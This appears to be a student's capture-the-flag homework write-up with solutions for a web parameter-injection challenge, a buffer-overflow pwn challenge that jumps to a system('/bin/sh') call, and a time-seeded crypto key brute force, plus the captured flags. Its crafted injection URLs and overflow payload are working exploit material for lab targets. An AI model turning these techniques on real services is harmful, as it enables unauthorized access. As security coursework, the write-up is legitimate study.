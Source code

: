 # HW0 writeup

## Web - owoHub
> FLAG{owo_ch1wawa_15_th3_b35t_uwu!!!}

1. Check *source code*
   - how to get flag?
   ```js
   // but the function can't be directly access by external users
   if (givemeflag === "yes" && userInfo.admin) response.send(FLAG);
   ```
   - where can be used?
      > `app.get('/auth', (request, response) => { const { username, cute } = request.query;`
      a. only check that `cute` end with `true` or `false`
      ```js
      if (typeof username !== "string" || typeof cute !== "string" || username === "" || !cute.match("(true|false)$"))
      ```
      b. `userInfo` take `cute` from the request query directly
      ```js
      const userInfo = `{"username":"${username}","admin":false,"cute":${cute}}`;
      ```
      c. use `userInfo` define in the previous step in the url and be used to `GET` **internally**
      ```js
      const api = `http://127.0.0.1:9487/?data=${userInfo}&givemeflag=no`;
      ```
2. give a random `username` and `cute`
   `https://owohub.zoolab.org/auth?username=a&cute=true`
3. make `admin` to be true
   `https://owohub.zoolab.org/auth?username=a&cute=true,%22admin%22:true`
   - since `userInfo` is `{"username":"${username}","admin":false,"cute":${cute}}`, by injecting `cute` previous key/value pair `"admin":false`
   - make `cute` to be `true,"admin":true`, `userInfo` will then be `{"username":"a","admin":false,"cute":true}`. That is, `{"username":"a","admin":true,"cute":false}`
4. make `givemeflag` to be `"yes"`
   1. want something like this, `https://owohub.zoolab.org/auth?username=a&cute=true,"admin":true}&givemeflag=yes#true`
      > `}` close the bracket for `useInfo` which make all the things after it not a part of `userInfo`  
      > `#` point a browser to a specific part or page but all characters after `#` will not be sent in request  
      - make `api` to be `http://127.0.0.1:9487/?data={"username":"a","admin":true,"cute":false}&givemeflag=yes#true&givemeflag=no`
      - the actual request being send internally should be `http://127.0.0.1:9487/?data={"username":"a","admin":true,"cute":false}&givemeflag=yes`
   2. try and get `{"error":"Whaaaat owo?"}`
      - currently, `cute` is `false,"admin":true}` so that it doesn't end with `true` or `false`
      - `cute` only take the part before the next `&`
   3. *url encoding* to bypass it
      > find the correspoding encode for `"}&#`  
      - then, the url should be `https://owohub.zoolab.org/auth?username=a&cute=true,%22admin%22:true%7D%26givemeflag=yes%23true`

## pwn - Cafe Overflow
> flag{c0ffee_0verfl0win6_from_k3ttle_QAQ}  
> [solution](./pwn/solve.py)

1. disassemble the binary with `objdump -d -M intel CafeOverflow`
   ```nasm
   401234:	e8 17 fe ff ff       	call   401050 <printf@plt>
   401239:	48 8d 45 f0          	lea    rax,[rbp-0x10]
   40123d:	48 89 c6             	mov    rsi,rax
   401240:	48 8d 3d f6 0d 00 00 	lea    rdi,[rip+0xdf6]        # 40203d <_IO_stdin_used+0x3d>
   401247:	b8 00 00 00 00       	mov    eax,0x0
   40124c:	e8 1f fe ff ff       	call   401070 <__isoc99_scanf@plt>
   ```
   Use `scanf` to get input in the *main function* with a buffer size of `0x10`. Therefore, it's vulnerable to **buffer overflow**. Pad `0x10` characters to fill the gap and 8 more byte to overwrite `rbp` and then its our target, ***the return address***.
2. In order to get the flag, we have to open shell and read the content of the remote file, *flag*.
   ```nasm
   0000000000401176 <func1>:
   401176:	55                   	push   rbp
   401177:	48 89 e5             	mov    rbp,rsp
   40117a:	48 83 ec 10          	sub    rsp,0x10
   40117e:	48 89 c0             	mov    rax,rax
   401181:	48 89 45 f8          	mov    QWORD PTR [rbp-0x8],rax
   401185:	48 b8 fe ca fe ca fe 	movabs rax,0xcafecafecafecafe
   40118c:	ca fe ca 
   40118f:	48 39 45 f8          	cmp    QWORD PTR [rbp-0x8],rax
   401193:	75 22                	jne    4011b7 <func1+0x41>
   401195:	48 8d 3d 68 0e 00 00 	lea    rdi,[rip+0xe68]        # 402004 <_IO_stdin_used+0x4>
   40119c:	e8 8f fe ff ff       	call   401030 <puts@plt>
   4011a1:	48 8d 3d 68 0e 00 00 	lea    rdi,[rip+0xe68]        # 402010 <_IO_stdin_used+0x10>
   4011a8:	e8 93 fe ff ff       	call   401040 <system@plt>
   4011ad:	bf 00 00 00 00       	mov    edi,0x0
   4011b2:	e8 c9 fe ff ff       	call   401080 <exit@plt>
   4011b7:	48 8d 3d 5a 0e 00 00 	lea    rdi,[rip+0xe5a]        # 402018 <_IO_stdin_used+0x18>
   4011be:	e8 6d fe ff ff       	call   401030 <puts@plt>
   4011c3:	90                   	nop
   4011c4:	c9                   	leave  
   4011c5:	c3                   	ret 
   ```
   Find a function, `fun1`, that never been called but call `system("/bin/sh")`. However, if call `func1`, it needs to fulfill certain requirement to jump to where it call `system("/bin/sh")`. Therefore, let it jump to `0x401195` directly.
3. Combine step 1 and 2.  
   `payload = 'a' * (0x10 + 8) + p64(0x401195)`

## Misc - The Floating Aquamarine

## Cryptography - 解密一下
> FLAG{4lq7mWGh93}
> [solution](./crypto/solve.py)

1. Modify source code to make it easier to read, from [encrypt.py](./crypto/encrypt.py) to [modifiedEncrypt.py](./crypto/modifiedEncrypt.py).
2. Use `time.time()` as seed for random. Therefore, by guessing around what time the [output.txt](./crypto/output.txt) is generated, the key possibility of key can be redused.
   ```python
   random.seed(int(time.time()))
   key = random.getrandbits(128).to_bytes(16, 'big')
   ```
3. Implement `decrypt` function for the corresponding `encrypt`.
4. Guess [output.txt](./crypto/output.txt) is the result of [encrypt.py](./crypto/encrypt.py) `n` days ago. Starting from `n` days ago, start brute force :joy:.

## Reverse - EekumBokum